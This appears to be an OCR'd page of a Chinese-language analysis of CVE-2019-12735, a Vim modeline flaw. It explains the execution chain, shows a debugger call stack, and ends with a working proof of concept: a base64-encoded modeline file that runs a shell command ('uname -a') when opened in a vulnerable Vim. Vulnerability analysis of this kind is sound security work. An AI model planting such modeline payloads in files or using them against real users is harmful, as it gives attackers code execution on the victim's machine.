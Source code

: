 - Poc原理

    要理解Poc的原理，需要有一些Vim相关的背景知识，见附件: cve-2019-12735-01

    下面👇是Poc的流程：

    - vim 打开poc文件，识别出文件首部的modeline

    - 跳过开头的text，从`"vi:"`后面开始依次加载配置选项

    - 加载到fde选项时，执行表达式中的`assert_fails`函数，进而执行`source! %`指令

    - `source! % `将当前文件作为Vim脚本加载并执行

    - Vim脚本的内容就是Poc文件，但是这次与直接打开不同，是作为脚本加载，所以文件内容不会被识别为modeline，而是识别为Vim脚本，具体含义是执行shell命令```uname -a || "some text"```，从而实现了命令执行

- 调用栈信息

```shell
#0  openscript (
    name=0x88fba8 "/home/invincible/Desktop/test/vim_test/poc.txt", 
    directly=0x0) at getchar.c:1415
#1  0x000000000046e06f in cmd_source (
    fname=0x88fba8 "/home/invincible/Desktop/test/vim_test/poc.txt", 
    eap=0x7fffffffc5c0) at ex_cmds2.c:3502
#2  0x000000000046dfd8 in ex_source (eap=0x7fffffffc5c0) at ex_cmds2.c:3484
...
#4  0x0000000000470d89 in do_cmdline (cmdline=0x87ea80 "source! %", 
...
#7  0x00000000004395ec in call_func (
    funcname=0x884d40 "assert_fails(\"source! %\")", len=0xc, 
...
#9  0x00000000004337f8 in eval7 (arg=0x7fffffffd680, rettv=0x7fffffffd6c0, 
...
#16 0x000000000043189b in eval0 (arg=0x884d40 "assert_fails(\"source! %\")", 
#17 0x000000000042cc06 in eval_foldexpr (
    arg=0x884d40 "assert_fails(\"source! %\")", cp=0x7fffffffd70c)
#18 0x00000000004a8403 in foldlevelExpr (flp=0x7fffffffd7b0) at fold.c:3032
...
#26 0x000000000040e02f in chk_modeline (lnum=0x1, flags=0x0) at buffer.c:5234
#27 0x000000000040dba6 in do_modelines (flags=0x0) at buffer.c:5115
...
#30 0x00000000005e8db0 in main (argc=0x2, argv=0x7fffffffde98) at main.c:881
...

```

    

### b.POC源码

```shell
$ echo "OiF1bmFtZSAtYXx8IiB2aTpmZW46ZmRtPWV4cHI6ZmRlPWFzc2VydF9mYWlscygic291cmNlXCFcIFwlIik6ZmRsPTA6ZmR0PSIK" | base64 --decode > poc.txt
$ cat poc.txt 
:!uname -a||" vi:fen:fdm=expr:fde=assert_fails("source\!\ \%"):fdl=0:fdt="
$vim poc.txt

```
